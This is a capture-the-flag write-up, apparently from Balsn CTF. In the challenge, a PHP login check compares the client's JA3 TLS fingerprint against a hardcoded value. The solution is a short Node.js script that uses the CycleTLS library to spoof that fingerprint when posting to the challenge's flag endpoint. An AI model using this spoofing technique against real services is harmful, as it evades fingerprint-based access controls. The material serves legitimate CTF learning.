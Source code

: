 # Overview
This is a gadget finding challenge, the target you can see Nginx on the machine is being patched in the Dockerfile.

The patch basically overwrites the `$http_ja3` and `$http_ja3_hash` variables, and we can't manipulate the value with http headers.

JA3 is a fingerprint of TLS/SSL client, you can identify which client sent the request with it.

And the code in "config.php" will check if the client's fingerprint is equal to the hardcoded value.

```php
<?php
define("FINGERPRINT", "771,4866-4865-4867-49195-49199-49196-49200-52393-52392-49171-49172-156-157-47-53,23-65281-10-11-35-16-5-13-18-51-45-43-27-17513,29-23-24,0");
$flag = 'BALSN{fake_flag}';

function fingerprint_check() {
    if($_SERVER['HTTP_SSL_JA3'] !== FINGERPRINT) 
        die("Login Failed!"); 
}

```

# Solution

I was trying to bypass the check with headers, but it didn't work.
So I studied some documents and discussions of JA3, and I found out I need to fake a JA3 fingerprint.

I searched and found a NodeJS library "CycleTLS" to achieve this.
```javascript
const initCycleTLS = require('cycletls');

(async () => {
  const cycleTLS = await initCycleTLS();

  // Send request
  const response = await cycleTLS('https://0fa.balsnctf.com:8787/flag.php', {
    body: 'username=admin',
    ja3: '771,4866-4865-4867-49195-49199-49196-49200-52393-52392-49171-49172-156-157-47-53,23-65281-10-11-35-16-5-13-18-51-45-43-27-17513,29-23-24,0',
    userAgent: 'Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:87.0) Gecko/20100101 Firefox/87.0',
    headers: { "Content-Type": "application/x-www-form-urlencoded" }
  }, 'POST');

  console.log(response);

  // Cleanly exit CycleTLS
  cycleTLS.exit();

})();
```